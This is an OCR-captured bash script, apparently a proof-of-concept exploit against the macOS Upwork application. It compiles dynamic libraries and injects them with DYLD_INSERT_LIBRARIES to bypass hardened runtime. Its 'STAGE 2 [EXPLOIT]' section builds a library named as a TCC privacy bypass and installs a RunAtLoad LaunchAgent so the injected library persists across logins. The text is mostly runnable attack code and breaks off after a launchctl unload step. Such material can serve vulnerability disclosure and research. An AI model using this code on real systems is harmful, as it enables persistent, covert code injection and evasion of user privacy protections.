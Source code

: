 ```bash

echo "[i] Compiling demo dylib hijack example"
gcc -dynamiclib -framework Cocoa -framework Foundation $DEMO_NAME.m -o $DEMO_NAME.dylib

echo "[i] Spawning \"Upwork\" and demoing hardened runtime bypass"
DYLD_INSERT_LIBRARIES=$DEMO_NAME.dylib /Applications/Upwork.app/Contents/MacOS/Upwork

echo "[i] Cleaning up demo"
rm -rf $DEMO_NAME.m 
rm -rf $DEMO_NAME.dylib 
########################################################################################################################

# #########################################################################################################################
# ## STAGE 2 [EXPLOIT] ####################################################################################################
echo "[i] Compiling exploit dylib hijack"
EXPLOIT_NAME=upwork_runtime_bypass_tcc_bypass
PLIST_FILE=com.upwork.attacker.launcher
LOGFILE=upwork_attacker
APP_PATH=/Applications/Upwork.app/Contents/MacOS/Upwork

gcc -dynamiclib -framework Foundation -framework AVFoundation $EXPLOIT_NAME.m -o /tmp/$EXPLOIT_NAME.dylib

echo "[i] Creating ~/Library/LaunchAgents/ if it doesn't exist"
mkdir ~/Library/LaunchAgents/ 2>/dev/null

echo "[i] Creating LaunchAgent plist in ~/Library/LaunchAgents/"

cat << EOF > ~/Library/LaunchAgents/$PLIST_FILE.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
	<dict>
		<key>Label</key>
		<string>$PLIST_FILE</string>
		<key>ProgramArguments</key>
		<array>
			<string>$APP_PATH</string>
		</array>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/tmp/$EXPLOIT_NAME.dylib</string>
        </dict>
		<key>RunAtLoad</key>
		<true/>
		<key>StandardOutPath</key>
		<string>/tmp/$LOGFILE.log</string>
		<key>StandardErrorPath</key>
		<string>/tmp/$LOGFILE.log</string>
	</dict>
</plist>
EOF

ls ~/Library/LaunchAgents/$PLIST

echo "[i] Clearing the LaunchAgent from previous attempt"
launchctl unload ~/Library/LaunchAgents/$PLIST 2>/dev/null

```